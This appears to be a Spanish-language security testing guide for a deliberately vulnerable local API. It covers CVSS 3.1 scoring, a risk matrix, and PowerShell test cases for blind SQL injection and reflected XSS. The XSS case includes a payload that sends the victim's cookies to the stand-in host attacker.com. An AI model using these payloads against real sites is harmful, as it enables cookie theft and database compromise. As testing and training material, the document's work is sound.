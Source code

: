 ## 📊 Scoring y Evaluación de Riesgo

### Metodología CVSS 3.1
Cada vulnerabilidad se evalúa usando el framework CVSS 3.1:

#### Métricas Base
- **Attack Vector (AV)**: Network, Adjacent, Local, Physical
- **Attack Complexity (AC)**: Low, High
- **Privileges Required (PR)**: None, Low, High
- **User Interaction (UI)**: None, Required
- **Scope (S)**: Unchanged, Changed
- **Impact (CIA)**: None, Low, High

#### Ejemplo de Cálculo
```
SQL Injection en /api/Vulnerable/user/{id}:
AV:N (Network) / AC:L (Low) / PR:N (None) / UI:N (None) / S:U (Unchanged) / C:H (High) / I:H (High) / A:H (High)
= CVSS 9.8 (Critical)
```

### Matriz de Riesgo Empresarial
| Severidad CVSS | Nivel de Riesgo | Tiempo de Remediación | Impacto Empresarial |
|----------------|-----------------|----------------------|-------------------|
| 9.0 - 10.0     | Crítico         | 0-24 horas          | $500K - $2M      |
| 7.0 - 8.9      | Alto           | 1-7 días            | $100K - $500K    |
| 4.0 - 6.9      | Medio          | 1-4 semanas         | $25K - $100K     |
| 0.1 - 3.9      | Bajo           | 1-3 meses           | <$25K            |

## 📋 Casos de Prueba Específicos

### TC-001: SQL Injection Testing
```powershell
# Caso de prueba: Boolean-based blind injection
$uri = "http://localhost:5000/api/Vulnerable/user/1' AND '1'='1"
$response1 = Invoke-RestMethod -Uri $uri

$uri = "http://localhost:5000/api/Vulnerable/user/1' AND '1'='2" 
$response2 = Invoke-RestMethod -Uri $uri

# Verificar diferencias en respuestas para confirmar vulnerabilidad
Compare-Object $response1 $response2
```

### TC-002: XSS Testing
```powershell
# Caso de prueba: Reflected XSS
$payload = "<script>document.location='http://attacker.com/'+document.cookie</script>"
$uri = "http://localhost:5000/api/Vulnerable/search?query=$([System.Web.HttpUtility]::UrlEncode($payload))"
$response = Invoke-RestMethod -Uri $uri

# Verificar si payload se refleja sin codificación
if ($response -like "*<script>*") {
    Write-Host "XSS Vulnerability Confirmed" -ForegroundColor Red
}
```
